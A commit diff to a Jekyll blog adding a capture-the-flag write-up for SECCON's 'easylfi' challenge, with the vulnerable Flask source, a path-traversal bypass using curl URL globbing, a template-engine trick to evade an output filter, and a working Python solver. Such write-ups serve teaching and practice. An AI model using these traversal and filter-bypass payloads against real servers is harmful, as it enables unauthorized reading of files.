

Before and after one commit to Spy0x7/Spy0x7.github.io, a Jekyll site: the page built from _posts/2022-10-15-Easylfi.md, in a window 1280 px wide and 1400 px high, scrolled down 2057 px. Shown: the whole window, without its empty margins (0-858 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2370 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2022-10-15-Easylfi.md

````diff
--- a/_posts/2022-10-15-Easylfi.md
+++ b/_posts/2022-10-15-Easylfi.md
@@ -28,3 +28,253 @@
 
 
 ![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2022-10-15-Easylfi/2022-10-15-Easylfi-02.png)
+
+
+Source code `(web/app.py` ):
+
+
+```python
+from flask import Flask, request, Response
+import subprocess
+import os
+
+app = Flask(__name__)
+
+
+def validate(key: str) -> bool:
+    # E.g. key == "{name}" -> True
+    #      key == "name"   -> False
+    if len(key) == 0:
+        return False
+    is_valid = True
+    for i, c in enumerate(key):
+        if i == 0:
+            is_valid &= c == "{"
+        elif i == len(key) - 1:
+            is_valid &= c == "}"
+        else:
+            is_valid &= c != "{" and c != "}"
+    return is_valid
+
+
+def template(text: str, params: dict[str, str]) -> str:
+    # A very simple template engine
+    for key, value in params.items():
+        if not validate(key):
+            return f"Invalid key: {key}"
+        text = text.replace(key, value)
+    return text
+
+
+@app.after_request
+def waf(response: Response):
+    if b"SECCON" in b"".join(response.response):
+        return Response("Try harder")
+    return response
+
+
+@app.route("/")
+@app.route("/<path:filename>")
+def index(filename: str = "index.html"):
+    if ".." in filename or "%" in filename:
+        return "Do not try path traversal :("
+
+    try:
+        proc = subprocess.run(
+            ["curl", f"file://{os.getcwd()}/public/{filename}"],
+            capture_output=True,
+            timeout=1,
+        )
+    except subprocess.TimeoutExpired:
+        return "Timeout"
+
+    if proc.returncode != 0:
+        return "Something wrong..."
+    return template(proc.stdout.decode(), request.args)
+
+```
+
+The goal is stealing a flag from `/flag.txt`.
+
+## Solution
+
+
+### Step 1: path traversal
+
+The server uses curl to read files:
+
+
+```code
+proc = subprocess.run(
+    ["curl", f"file://{os.getcwd()}/public/{filename}"],
+    capture_output=True,
+    timeout=1,
+)
+```
+
+
+
+Unfortunately, path traversal to `/flag.txt` is prevented:
+
+```code
+if ".." in filename or "%" in filename:
+    return "Do not try path traversal :("
+```
+
+By the way, curl has a feature of  [URL globbing](https://everything.curl.dev/cmdline/globbing), and you can access multiple resources at the same time.
+You can bypass the above defense using this feature:
+
+```
+$ http "http://localhost:3000/.{.}/.{.}/flag.txt"
+HTTP/1.1 200 OK
+Connection: close
+Content-Length: 10
+Content-Type: text/html; charset=utf-8
+Date: Sat, 05 Nov 2022 12:09:18 GMT
+Server: Werkzeug/2.2.2 Python/3.10.8
+
+Try harder
+
+```
+
+However, the following WAF hides the flag response:
+
+```
+@app.after_request
+def waf(response: Response):
+    if b"SECCON" in b"".join(response.response):
+        return Response("Try harder")
+    return response
+
+```
+
+### Step 2: bypassing WAF
+
+The server returns a response after the following process:
+
+
+```return template(proc.stdout.decode(), request.args)```
+
+
+The implementation of the template engine is as follows:
+
+
+```code
+def validate(key: str) -> bool:
+    # E.g. key == "{name}" -> True
+    #      key == "name"   -> False
+    if len(key) == 0:
+        return False
+    is_valid = True
+    for i, c in enumerate(key):
+        if i == 0:
+            is_valid &= c == "{"
+        elif i == len(key) - 1:
+            is_valid &= c == "}"
+        else:
+            is_valid &= c != "{" and c != "}"
+    return is_valid
+
+
+def template(text: str, params: dict[str, str]) -> str:
+    # A very simple template engine
+    for key, value in params.items():
+        if not validate(key):
+            return f"Invalid key: {key}"
+        text = text.replace(key, value)
+    return text
+
+```
+
+Is it possible to show the flag string without `SECCON` by abusing this template engine?
+
+The first important point is that `validate("{")` is `True`. You can bypass it with this bug and URL globbing.
+
+Example payload:
+
+   - URL: ```file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}```
+   - params:
+
+   ```code
+   {
+    "{name}": "{",
+    "{": "}{",
+    "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": ""
+}
+
+```
+
+The process in the template engine is as follows.
+
+The initial state:
+
+```
+... snip ...
+<body>
+  <h1>Hello, {name}!</h1>
+</body>
+</html>
+--_curl_--file:///app/public/../../flag.txt
+SECCON{real_flag}
+
+```
+
+```"{name}" → "{":```
+
+```
+... snip ...
+<body>
+  <h1>Hello, {!</h1>
+</body>
+</html>
+--_curl_--file:///app/public/../../flag.txt
+SECCON{real_flag}
+
+```
+
+`"{" → "}{":`
+
+
+```
+... snip ...
+<body>
+  <h1>Hello, }{!</h1>
+</body>
+</html>
+--_curl_--file:///app/public/../../flag.txt
+SECCON}{real_flag}
+
+```
+
+```"{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}" → "":```
+
+
+```
+... snip ...
+<body>
+  <h1>Hello, }{real_flag}
+
+```
+
+### Solver
+
+```python
+import os
+import httpx
+
+BASE_URL = f"http://easylfi.seccon.games:3000"
+
+res = httpx.get(
+    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
+    params={
+        "{name}": "{",
+        "{": "}{",
+        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
+    },
+)
+
+print("SECCON" + res.text.split("<h1>Hello, }")[1])
+
+```
+
+## exit
````
